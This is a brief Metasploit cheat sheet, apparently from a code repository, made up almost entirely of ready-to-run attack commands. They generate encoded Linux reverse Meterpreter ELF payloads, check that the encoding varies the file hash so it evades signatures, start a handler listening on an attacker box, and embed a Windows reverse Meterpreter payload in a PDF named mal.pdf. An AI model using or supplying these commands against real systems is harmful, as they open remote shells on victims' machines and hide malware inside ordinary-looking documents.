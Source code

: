 # metasploit framework
## basic encoded linux reverse meterpreter
### proving the ecoder is working correctly

	touch tmp && for i in {1..3}; do msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -e x86/shikata_ga_nai -i 5 LHOST=0.0.0.0 LPORT=5253 -o mal.elf && sha256sum mal.elf >> tmp; rm mal.elf; done;

### payload generation and starting handler, one liner
	
	sudo service postgresql restart && msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -e x86/shikata_ga_nai -i 5 LHOST=attackBox LPORT=attackPort -o mal.elf && msfconsole -x "use exploit/multi/handler; set payload linux/x86/meterpreter/reverse_tcp; set LHOST attackBox; set LPORT attackPort; exploit"

## embedded pdf executable

	msfvenom -p windows/meterpreter/reverse_tcp -f psh -x download.pdf -k LHOST=0.0.0.0 LPORT=5253 -o mal.pdf
